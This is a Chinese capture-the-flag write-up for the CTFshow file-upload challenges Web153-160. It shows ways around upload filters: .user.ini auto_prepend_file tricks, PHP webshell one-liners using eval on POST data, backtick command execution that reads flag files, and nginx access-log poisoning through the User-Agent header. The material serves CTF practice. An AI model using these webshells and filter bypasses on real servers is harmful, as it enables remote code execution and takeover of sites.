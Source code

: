# CTFshow 文件上传

**题目范围：Web151 - Web170**



## Web 153 .user.ini

这个题有必要写一写WP，在修改了前端，并且Burp拦截修改MIME之后，.php依旧是传不上去。

那就用.user.ini，其内容是`auto_prepend_file=yi.png`，然后依旧是改前端，改MIME，将这个文件上传了上去。第二步就是上传yi.png（图片马），这个就是png，也没什么好改的。

**注意！**这之后蚁剑连接的不应该是yi.png，也不是yi.php，而应该是.user.ini目录下的任何一个php文件，所以我们连接 index.php

**关于.user.ini：**`.user.ini`使用范围很广，不仅限于 Apache 服务器，同样适用于 Nginx 服务器，只要服务器启用了 fastcgi 模式 (通常非线程安全模式使用的就是 fastcgi 模式)。

**局限：**在.user.ini中使用这条配置也说了是在同目录下的其他.php 文件中包含配置中所指定的文件，也就是说需要该目录下存在.php 文件，通常在文件上传中，一般是专门有一个目录用来存在图片，可能小概率会存在.php 文件。

但是有时可以使用 ../ 来将文件上传到其他目录，达到一个利用的效果。





## Web 154

相对于上一关来说，过滤了php，我们可以大写绕过，也可以使用php短标签。

但是问题是，我是看了WP才知道的啊……（流汗黄豆）这该咋办。





## Web 156

这关更离谱，过滤了`[]`，所以我们只能用花括号替代中括号，一句话木马就只能是

`<?= @eval($_POST{'a'});?>`

这不看WP怎么会知道啊。





## Web 157-158

越来越离谱了，这一关过过滤了`php`、`[]`、`{}`、`;`。

但是我们还是可以执行任意php语句呀，只是没办法上传php了而已。所以还是先上传.user.ini，然后上传图片的内容应该是`<?=system('ls ../')?>`。

或者直接`<?=system(tac ../fla*)?> `

但是会报错“**Parse error**:  syntax error, unexpected '.' in **/var/www/html/upload/yi.png** on line **1**”

那我们就稍稍修改一下，`<?=system("tac ../fl*")?>`





## Web 159

 本题过滤掉了`php`、`{}`、`[]`、`;`、`()`。

所以就无法调用所有的函数了，但是能利用php特性，命令执行可以用``（反引号包涵）

```php
<?=`nl ../fl*`?>
<?=`tac ../fl*`?>
```





## Web 160

> 在不同的系统，存放日志文件地方和文件名不同
>
> **apache**一般是/var/log/apache/access.log
>
> **nginx**的log在/var/log/nginx/access.log和/var/log/nginx/error.log
>
> 由于访问URL时访问URL时，服务器会对其编码，所以得通过抓包的形式尝试注入
>



添加了日志包含，nginx的日志在`/var/log/nginx/access.log`，同时过滤了`log`，用句点.拼接

`<?=include"/var/lo"."g/nginx/access.lo"."g"?>`

这里要两次包含，首先.user.ini包含木马php，再上传木马php包含日志，同时UA头更改成tac语句：`<?php @eval($_POST['a']);?>`



这个题详细说一下吧，先改前端，将合法后缀改成`ini`，然后打开拦截，上传`.user.ini`，然后在Burp中修改MIME为`image/png`，内容：`auto_prepend_file=yi.png`，然后再改前端，改成png，然后上传`yi.png`，内容：`<?=include"/var/lo"."g/nginx/access.lo"."g"?>`，上传png的同时拦截修改UA为`<?php @eval($_POST['a']);?>`，然后就OK了，蚁剑连接`URL/uypload/index.php`或者直接`URL/uypload/`就行了。
